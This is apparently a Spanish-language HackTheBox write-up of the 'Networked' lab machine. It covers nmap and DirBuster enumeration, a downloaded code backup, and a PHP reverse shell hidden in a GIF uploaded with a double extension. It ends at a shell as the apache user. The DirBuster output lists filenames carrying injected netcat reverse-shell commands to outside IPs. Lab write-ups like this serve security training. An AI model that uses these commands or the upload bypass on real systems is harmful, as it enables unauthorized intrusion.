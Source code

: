 ```yaml
---
layout: post
title: "Networked"
subtitle: 'HackTheBox - Easy Machine - Linux'
date: 2019-11-16 12:00:00
author: "TheusZero"
header-img: "images/post/Networked.png"
tags:
  - Linux
  - Machine
  - Explotations
  - Upgrade
  - Shell
  - Root
  - User
---
```


###Networked - una maquina linux que viene de la mano con php

###Nmap results:
```vim
root@BrI3fIng:~# nmap -sC -sV 10.10.10.146 
Starting Nmap 7.80 ( https://nmap.org ) at 2019-11-16 18:20 -03
Nmap scan report for 10.10.10.146
Host is up (0.24s latency).
Not shown: 997 filtered ports
PORT    STATE  SERVICE VERSION
22/tcp  open   ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 22:75:d7:a7:4f:81:a7:af:52:66:e5:27:44:b1:01:5b (RSA)
|   256 2d:63:28:fc:a2:99:c7:d4:35:b9:45:9a:4b:38:f9:c8 (ECDSA)
|_  256 73:cd:a0:5b:84:10:7d:a7:1c:7c:61:1d:f5:54:cf:c4 (ED25519)
80/tcp  open   http    Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.4.16
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
443/tcp closed https

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 38.61 seconds
```

###Puerto 80:
>> Hello mate, we're building the new FaceMash!
  Help by funding us and be the new Tyler&Cameron!
  Join us at the pool party this Sat to get a glimpse

###Dirbuster
```vim
DirBuster 1.0-RC1 - Report
http://www.owasp.org/index.php/Category:OWASP_DirBuster_Project
Report produced on Sat Nov 16 18:56:31 CLST 2019
--------------------------------
http://10.10.10.146:80
--------------------------------
Directories found during testing:
Dirs found with a 200 response:
/
/icons/
/uploads/
/icons/small/
/backup/
Dirs found with a 403 response:
/cgi-bin/
--------------------------------
Files found during testing:
Files found with a 200 responce:
/index.php
/photos.php
/upload.php
/lib.php
/uploads/;nc%20-c%2010.10.15.196%201234;.php
/uploads/;%20nc%20-c%20bash%2010.10.14.197%201976%20&
/uploads/;%20nc%20-c%20bash%2010.10.14.197%201976%20&amp;
/uploads/;nc%20-c%20bash%2010.10.15.196%201234;.php
/uploads/;%20nc%2010.10.16.61%201235%20-c%20bash
/uploads/;nc%2010.10.14.156%208001%20-c%20bash;.php
/backup/backup.tar
--------------------------------
```
raro, creo que hay algunos amigos que dejaron una reverse shell hecha, aunque no se si pescarla, creo que no lo hare uwu.

##Busqueda en los directorios.
creo que tengo algunos directorios importantes

>/upload.php
>
>/uploads/
>
>/backup/

##Backup
viendo el directorio backup puedo encontrar algo interesante, hay un archivo.tar que puedo descargar asi que vamos a la obra.

```vim
root@BrI3fIng:~/HTB/Networked# mv backup.tar backup
root@BrI3fIng:~/HTB/Networked# cd backup/
root@BrI3fIng:~/HTB/Networked/backup# file backup.tar 
backup.tar: POSIX tar archive (GNU)
root@BrI3fIng:~/HTB/Networked/backup# tar -xf backup.tar 
root@BrI3fIng:~/HTB/Networked/backup# ls -la
total 36
drwxr-xr-x 2 root root  4096 nov 16 19:03 .
drwxr-xr-x 3 root root  4096 nov 16 19:03 ..
-rw-r--r-- 1 root root 10240 nov 16 19:02 backup.tar
-rw-r--r-- 1 root root   229 jul  9 07:33 index.php
-rw-r--r-- 1 root root  2001 jul  2 07:38 lib.php
-rw-r--r-- 1 root root  1871 jul  2 08:53 photos.php
-rw-r--r-- 1 root root  1331 jul  2 08:45 upload.php
```
Revisando lib.php y upload.php y photos.php encontre y de manera resumida, que los archivos que el sistema acepta son jpg y gif
por lo que intente subir un gif liviano y el sistema lo acepto, ahora que se que el sistema me acepto la imagen comienza la parte de buscar la reverse shell.

###Reverse Shell - Image GIF.
cargue un archivo bastante chistoso, un gif de my little pony. para cargarle la reverse shell ocupe vim y le inserte una reverse shell en php alfinal del archivo, pero antes de el ";" para que asi se procese con todo el contenido.

de por si no me funciono, ya que no leia el php. buscando por internet encontre que debia llevar si o si el .php, por lo que le coloqueÑ

>wena.php.gif

funciono. 

subio la reverse shell y ahora tocaba a usar netcat para esperar y conectarme, a ver si funcionaba.

###User Apache

Logre entrar como user "Apache"


